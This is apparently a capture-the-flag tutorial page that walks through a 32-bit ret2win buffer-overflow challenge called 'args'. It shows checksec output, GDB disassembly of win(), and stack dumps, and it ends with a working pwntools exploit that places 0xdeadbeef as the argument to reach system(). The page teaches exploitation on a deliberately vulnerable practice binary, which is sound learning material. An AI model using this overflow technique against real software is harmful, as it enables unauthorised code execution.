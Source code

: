 ```yaml
---
description: Solving another ret2win, with a twist.
---
```


# args

{% file src="../../.gitbook/assets/args.zip" %}

Now that we've spent some time going over binaries in extreme detail, I am going to omit some of the initial details of the disassembly and focus more on the newer concepts. This binary is strikingly similar to the ret2win.

### Checking Security

```nasm
$ checksec args
[*] '/home/joybuzzer/Documents/vunrotc/public/01-ret2win/args/src/args'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

All the security features are still disabled.

### Disassembly

Checking the functions list:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  __libc_start_main@plt
0x08049050  fflush@plt
0x08049060  gets@plt
0x08049070  puts@plt
0x08049080  system@plt
0x08049090  _start
0x080490d0  _dl_relocate_static_pie
0x080490e0  __x86.get_pc_thunk.bx
0x080490f0  deregister_tm_clones
0x08049130  register_tm_clones
0x08049170  __do_global_dtors_aux
0x080491a0  frame_dummy
0x080491a6  win
0x080491ef  read_in
0x0804923c  main
0x08049254  __x86.get_pc_thunk.ax
0x08049258  _fini
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

If we check `read_in()` and `main()`, we'll see that the two methods are identical. Let's check `win()`.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  disas win
Dump of assembler code for function win:
   0x080491a6 <+0>:	push   ebp
   0x080491a7 <+1>:	mov    ebp,esp
   0x080491a9 <+3>:	push   ebx
   0x080491aa <+4>:	sub    esp,0x4
   0x080491ad <+7>:	call   0x8049254 <__x86.get_pc_thunk.ax>
   0x080491b2 <+12>:	add    eax,0x2e4e
   0x080491b7 <+17>:	cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x080491be <+24>:	je     0x80491d6 <win+48>
   0x080491c0 <+26>:	sub    esp,0xc
   0x080491c3 <+29>:	lea    edx,[eax-0x1ff8]
   0x080491c9 <+35>:	push   edx
   0x080491ca <+36>:	mov    ebx,eax
   0x080491cc <+38>:	call   0x8049070 <puts@plt>
   0x080491d1 <+43>:	add    esp,0x10
   0x080491d4 <+46>:	jmp    0x80491ea <win+68>
   0x080491d6 <+48>:	sub    esp,0xc
   0x080491d9 <+51>:	lea    edx,[eax-0x1fee]
   0x080491df <+57>:	push   edx
   0x080491e0 <+58>:	mov    ebx,eax
   0x080491e2 <+60>:	call   0x8049080 <system@plt>
   0x080491e7 <+65>:	add    esp,0x10
   0x080491ea <+68>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491ed <+71>:	leave  
   0x080491ee <+72>:	ret   
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

The most glaring part of this function is the call to `cmp`, a comparison function. `cmp` is used in assembly to manage `if` statements.

* The first instruction is `cmp`, which takes in the two values to compare. This returns a value of `0` if the two values are equal, `1` if the first value is greater than the second, and `-1` if the first value is less than the second.
* The next instruction is a "_jump if_" instruction. These are used in tandem with `cmp` to decide where we go. In this case, the program decides to _jump if equal_ (`je`). `je` takes an address: where in the function you want to jump to.

Let's check out the two routes:

* If the first value (`DWORD PTR [rbp+0x8]`) is equal to `0xdeadbeef`, then we move to `win+48`. If we follow `win+48`, we see that this reaches `system`.
* If `DWORD PTR [rbp+0x8]` is not equal, it will continue instructions. However, there is a `jmp` call, which is going to jump to `win+68`, which skips the `system` call.

_What is `DWORD PTR [rbp+0x8]`?_ Let's think about it in terms of the stack. The stack frame is going to be located at `rbp`. After `rbp` is going to be the _return pointer_, as we saw in our stack frame from earlier:

```nasm
   |-- rsp
   v
[... | ... buffer for function ... | base pointer | return pointer | ... ]
```

That means that at `rbp+0x8` holds the last thing pushed to the stack _before the `win()` function was called_. **This is the (first) parameter that's passed to the function.** Subsequent items on the stack would serve as the following parameters.

This tells us that we need to pass the parameter `0xdeadbeef` to the `win()` function. Since this is 32-bit, let's just pass it right after the return pointer!

```python
from pwn import *

proc = process('./args')

cmp = 0xdeadbeef
f_win = 0x080491a6

payload = b'A' * 0x34
payload += p32(f_win)
payload += p32(cmp)

proc.sendline(payload)
proc.interactive()
```

We pass `cmp` through `p32()` for two reasons: (1) we need it to be little-endian, and (2) we need it to be the entire parameter size.

Running this yields doesn't work!

```nasm
[+] Starting local process './args': pid 5882
[*] Switching to interactive mode
Good luck winning here!
You lose!
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Process './args' stopped with exit code -11 (SIGSEGV) (pid 5882)
```

What went wrong? If we do some digging, we'll find that _You lose!_ gets printed whenever we don't match the correct argument:

```nasm
──── arguments (guessed) ────
puts@plt (
   [sp + 0x0] = 0x0804a008 → "You lose!"
)
```

(_If you're struggling to find this for yourself, attach a gdb instance to your exploit and then step through it until you reach the `puts` call._)

What is happening? Checking the stack frame at the time of the `cmp` call shows us:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/20wx $esp
0xffdcb134:	0x41414141	0x41414141	0x41414141	0xdeadbeef
0xffdcb144:	0x00000000	0xf7fba020	0xf7c21519	0x00000001
0xffdcb154:	0xffdcb204	0xffdcb20c	0xffdcb170	0xf7e2a000
0xffdcb164:	0x0804923c	0x00000001	0xffdcb204	0xf7e2a000
0xffdcb174:	0xffdcb204	0xf7fb9b80	0xf7fba020	0xa1d90556
gef➤  x/wx $ebp+0x8
0xffdcb144:	0x00000000
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

We're off by one chunk? _Why is that?_ Since we're jumping to `win()` by changing the value of the return pointer, rather than going there via `call win`, a return pointer is never pushed on the stack. However, since the code doesn't expect us to do this, it treats the stack as if there still is one.

{% hint style="warning" %}
_In our code, `0xdeadbeef` is actually serving as the return pointer for `win()`. If you continue execution, you'll notice you end up at this address:_

```nasm
[#0] Id 1, Name: "args", stopped 0xdeadbeef in ?? (), reason: SIGSEGV
```
{% endhint %}

This is an easy fix. All we need to do is allocate space for a return pointer in our payload. Since it doesn't matter to us what it is, because we'll have already gotten our data by the time it's ever reached, we can just use `0x0`:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = process('./args')

cmp = 0xdeadbeef
f_win = 0x080491a6

payload = b'A' * 0x34
payload += p32(f_win)
payload += p32(0x0)
payload += p32(cmp)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

(_You could use something like `main` ensuring that the program doesn't crash, but it's unnecessary._)

Running this works!

```nasm
[+] Starting local process './args': pid 6081
[*] Switching to interactive mode
Good luck winning here!
cat: flag.txt: No such file or directory
[*] Got EOF while reading in interactive
$ 
[*] Process './args' stopped with exit code -11 (SIGSEGV) (pid 6081)
[*] Got EOF while sending in interactive
```

Running this on the remote server will get your flag!
